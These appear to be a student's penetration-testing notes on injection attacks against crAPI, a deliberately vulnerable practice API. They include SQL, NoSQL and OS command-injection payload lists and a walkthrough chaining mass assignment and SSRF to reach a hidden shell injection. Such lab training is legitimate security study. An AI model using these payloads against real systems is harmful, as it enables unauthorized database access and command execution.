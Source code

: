 # Injection Attacks  

>[Testing for Injection Vulnerabilities](https://university.apisec.ai/products/api-penetration-testing/categories/2150251361/posts/2157505668)  

## Discovering Injection Vulnerabilities  

>Fuzzing APIs is the process of sending various types of input to an endpoint to provoke an unintended response.  
>The payloads used for fuzzing include symbols, numbers, system commands, SQL queries, NoSQL queries, emojis, hexadecimal, boolean statements.  

>When reviewing API documentation, if the API is expecting a certain type of input (number, string, boolean value) send:

* Very large number
* very large string
* negative number
* string (instead of a number or boolean value)
* Random characters
* Boolean values
* Meta characters  

## SQL Injection  

```
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1

0'; select version() --+
```  

>Last payload at endpoint `http://127.0.0.1:8888/workshop/api/shop/apply_coupon`, return the version of the crAPI SQL server:  

![crapi-sql-injection-test.png](/images/crapi-sql-injection-test.png)  

## NoSQL Injection  

>List of [noSQL payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), and sample below:  

```
$gt 
{"$gt":""}
{"$gt":-1}

$ne
{"$ne": 1}
{"$ne":""}
{"$ne":-1}
{'$ne': 1}
{'$ne':''}
{'$ne':-1}

$nin
{"$nin":1}
{"$nin":[1]}

{"$where":  "sleep(1000)"}
```  

>`$gt` is a MongoDB NoSQL query operator that selects documents that are greater than the provided value.  
>The `$ne` query operator selects documents where the value is not equal to the provided value.  
>The `$nin` operator is the `not in` operator, used to select documents where the field value is not within the specified array.  
>Many of the others in the list contain symbols that are meant to cause verbose errors.  
>Other payload samples attempt to bypassing authentication or waiting 10 seconds.  

![crapi-nosql-injection-fuzzing.png](/images/crapi-nosql-injection-fuzzing.png)

>Result of fuzzing show noSQL injection, returning a shop coupon at the `/community/api/v2/coupon/validate-coupon`.  

![crapi-nosql-injection-fuzzing-result.png](/images/crapi-nosql-injection-fuzzing-result.png)  

## OS Command Injection  

>Operating system command injection attacks inject a command separator and operating system commands.  

```
|
||
&
&&
'
"
;
'"
```  

>Common Operating System Commands:  

```
ipconfig
dir
ver
whoami
ifconfig
ls
pwd
id
```

>Enumeration of endpoint to change video name, show several fields in the response for video format and conversion.  

![crapi-os-cmd-injection-enumeration.png](/images/crapi-os-cmd-injection-enumeration.png)  

```JSON
{
"id":202,
"video_name":"My Video Name",
"conversion_params":"-v codec h264",
"profileVideo":"data:image/jpeg;base64,AAAAGGZ0eXBtcDQyAAAAA snip "
}
```  

>Altering the PUT endpoint to add new field to change value indicate mass assignment vulnerability:  

```JSON
{"videoName":"My Video Name","conversion_params":"-v codec MASS ASSIGNMENT VULNERABILITY"}
```  

>Targeting the JSON parameter `conversion_params` in `PUT /identity/api/v2/user/videos/202` to find correct OS CMD inject escape and excution.  

>Once parameter conversion_params update with OS CMD payload and we get video, a 403 Forbidden response message indicate internal server on port `8080`:  

```JSON
{"message":"Thi-S endpoint S-hould be accessed only inte-Rnally. -Fine? , endpoint_url http://crapi-identity:8080/identity/api/v2/user/videos/convert_video","status":403}
```  

>need another SSRF vulnerability to trigger our payload.  
>Make a note of the URL that is given to us here.

```
http://crapi-identity:8080/identity/api/v2/user/videos/convert_video?video_id=202
```  

![crapi-mass-assignment-with-ssrf-trigger-to-exploit-os-cmd-injection-attack.png](/images/crapi-mass-assignment-with-ssrf-trigger-to-exploit-os-cmd-injection-attack.png)  

```
WOW. Look at you. Combining Mass Assignment and SSRF to exploit a hidden Shell Injection.
We're very proud. You won the game. Unfortunately, we don't actually  
allow our pentester to run arbitrary shell commands on our backend :( 
It could be very expensive and annoying to maintain it. 
Anyhow, if you host your own instance of crAPI, you can simply change the
`block_shell_injections` flag in the config file to allow real shell injections.
```  



